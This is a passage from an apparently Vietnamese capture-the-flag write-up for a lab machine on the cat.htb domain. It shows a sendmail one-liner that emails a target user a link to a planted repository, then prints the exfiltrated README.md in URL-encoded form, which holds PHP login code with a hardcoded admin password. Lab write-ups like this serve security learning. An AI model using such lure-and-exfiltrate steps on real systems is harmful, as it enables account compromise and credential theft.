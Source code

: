 ```bash
echo -e "Subject: Test Email\n\nHello, check repo http://localhost:3000/axel/Khanh" | sendmail jobert@cat.htb
```
![alt text](image-50.png)
![alt text](image-51.png)

Ta thu được nội dung file README.md đang được mã hóa url

```bash
%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A
```
Giải mã url 
![alt text](image-52.png)